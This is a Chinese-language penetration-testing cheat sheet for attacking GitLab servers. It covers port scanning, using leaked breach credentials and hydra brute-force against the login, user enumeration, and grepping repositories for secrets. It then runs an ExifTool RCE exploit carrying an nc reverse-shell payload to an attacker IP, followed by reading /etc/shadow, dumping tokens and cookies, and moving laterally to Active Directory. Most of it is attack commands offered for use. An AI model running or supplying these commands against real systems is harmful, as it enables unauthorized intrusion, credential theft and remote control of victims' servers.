 ```yaml
---
description: >-
  GitLab是一個基於 Web 的 Git 儲存庫託管工具，提供 wiki 功能、問題追蹤以及持續整合和部署管道功能。它是開源的，最初是用 Ruby
  編寫，但目前的技術堆疊包括 Go、Ruby on Rails 和 Vue.js。 Gitlab 於 2014 年首次推出，多年來，已發展成為一家擁有
  1,400 名員工的公司，2020 年的收入為 1.5 億美元。以下是有關 GitLab 的一些快速
---
```


# Gitlab

## <mark style="color:red;">**1. 發現點**</mark>

* 用 `nmap` 掃描內網 / 外網：

```bash
nmap -sV -p- --open -T4 10.10.10.10
```

* 發現有 `GitLab` UI（一般 port：80/443/8081）
* 打開 `http://gitlab.xxx.local`
* 留意登入頁面有「GitLab」標誌

## <mark style="color:red;">**2. 測試Payload**</mark>

* 去網站:
  * [https://dehashed.com](https://dehashed.com)
  * [https://breach-parse.sh](https://breach-parse.sh)
* 搜尋公司域名，下載可能洩露 email + 密碼
* 嘗試弱密碼登入

```bash
hydra -L emails.txt -P passwords.txt gitlab.xxx.local http-form-post "/users/sign_in"
```

## <mark style="color:red;">3. 使用者枚舉</mark>

* 安裝 `GitLabUserEnum` 工具\
  GitHub: [https://github.com/dpgg101/GitLabUserEnum](https://github.com/dpgg101/GitLabUserEnum)

```bash
python3 GitLabUserEnum.py -u http://gitlab.xxx.local
```

* 列出有效帳戶名稱

***

## <mark style="color:red;">4. 搜尋敏感資訊</mark>

* 登入成功後
* 查看公共 Repository，有時會有：
  * `.env` 檔案
  * SSH Key
  * API keys
  * 資料庫密碼
* 用 `grep` 搜索敏感字眼：

```bash
grep -r -i "password" ./repo-folder/
```

## <mark style="color:red;">5. 利用 GitLab RCE（ExifTool 漏洞）</mark>

> 適用版本：GitLab CE <= 13.10.2

* 用以下 python exploit：
* [https://www.exploit-db.com/exploits/49951](https://www.exploit-db.com/exploits/49951)

```bash
python3 gitlab_13_10_2_rce.py -t http://gitlab.xxx.local:8081 -u <帳號> -p <密碼> -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <你的IP> <你的PORT> >/tmp/f'
```

* 開啟 nc listener：

```bash
nc -lnvp 8443
```

* 成功會收到 www-data shell！

## <mark style="color:red;">6. 拿到 shell 後的動作</mark>

* 提升權限：

```bash
sudo -l
```

* 檢查能不能執行其他指令
* 如果可以 Win / Linux 提權
* 找 `root.txt` 或 `/etc/shadow`

***

* Dump token / cookie
* 橫向到其他服務（SMTP、FTP、VPN）
* 拿下 AD 資訊
*
